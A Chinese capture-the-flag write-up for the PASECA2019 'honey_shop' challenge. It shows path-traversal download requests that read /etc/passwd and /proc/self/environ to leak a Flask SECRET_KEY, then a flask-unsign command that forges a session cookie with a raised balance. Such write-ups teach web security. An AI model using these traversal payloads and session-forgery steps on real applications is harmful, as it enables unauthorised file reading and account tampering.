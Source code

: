 # \[PASECA2019]honey\_shop

## \[PASECA2019]honey\_shop

## 考点

* LFI
* 任意文件下载
* Flask伪造session

## wp

提示有1336块钱，买flag需要1337块钱。

发现存在session内容如下

```
eyJiYWxhbmNlIjoxMzM2LCJwdXJjaGFzZXMiOltdfQ.YmkaXQ.fruZujDjSk6Qq1MSDRQGKuX8NVw
```

flask-unsign解码一下，得到`{'balance': 1336, 'purchases': []}`，看来需要获取secret\_key修改session来购买flag

试了一下，整个页面除了购买外，只有图片可以点

![](<../../.gitbook/assets/image (23).png>)

尝试任意文件下载，发现/download?image=../../etc/passwd可以下载文件

![](<../../.gitbook/assets/image (35).png>)

访问/download?image=../../proc/self/cmdline，得到运行目录app/app.py

访问/download?image=../../proc/self/environ得到SECRET\_KEY=eiYzH7ck0Pta8ghUGYRRpD8LtNjw5TE2ssJ1BL0F

![](<../../.gitbook/assets/image (4).png>)

重新加密session，`flask-unsign.exe --secret "eiYzH7ck0Pta8ghUGYRRpD8LtNjw5TE2ssJ1BL0F" --sign --cookie "{'balance': 2000, 'purchases': []}"`，得到`eyJiYWxhbmNlIjoyMDAwLCJwdXJjaGFzZXMiOltdfQ.YmkdOg.P80Or5syU9nQrh8nURtyyqinVUY`

修改session购买flag即可
